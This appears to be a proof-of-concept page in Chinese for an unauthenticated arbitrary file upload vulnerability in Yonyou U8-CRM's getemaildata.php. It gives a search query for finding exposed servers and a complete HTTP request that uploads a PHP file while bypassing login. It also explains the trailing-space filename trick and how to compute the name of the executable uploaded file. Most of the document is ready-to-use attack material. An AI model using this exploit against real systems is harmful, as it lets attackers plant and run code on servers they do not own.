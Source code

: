## 用友U8-CRM客户关系管理系统getemaildata.php任意文件上传漏洞

## hunter
```
app.name="用友 CRM"
```


## poc
```
POST /ajax/getemaildata.php?DontCheckLogin=1 HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykS5RKgl8t3nwInMQ
Content-Length: 517

------WebKitFormBoundarykS5RKgl8t3nwInMQ
Content-Disposition: form-data; name="file"; filename="test.php "
Content-Type: text/plain

<?php phpinfo();?>
------WebKitFormBoundarykS5RKgl8t3nwInMQ
```

![9147057345d2ec4f1d7c8318ddf36883](https://github.com/wy876/POC/assets/139549762/5b3752aa-824e-4d81-8fe6-5d61cd77dc17)

上传包中文件的名称后要添加一个空格，不然上传之后不会解析。

上传之后返回的路径为E:\\U8SOFT\\turbocrm70\\code\\www\\tmpfile\\，文件名称为mhtB356.tmp.mht；文件不解析，需要访问另一个文件（上传之后会在目录下生成两个文件一个tmp.mht文件和一个tmp.php文件），访问的解析文件格式为udp***.tmp.php，星号部分为返回的文件名的十六进制减去一，例如：B356——>45910(十六进制)，45909（十六进制减一）——>b355。

![0cb454248fb7425131ee976bfff161f2](https://github.com/wy876/POC/assets/139549762/77be2d85-2c4c-46a4-8a95-71d415b2aa1a)

## 漏洞来源
- https://mp.weixin.qq.com/s/iCkvHKl-QC5o3gj_t02tmg
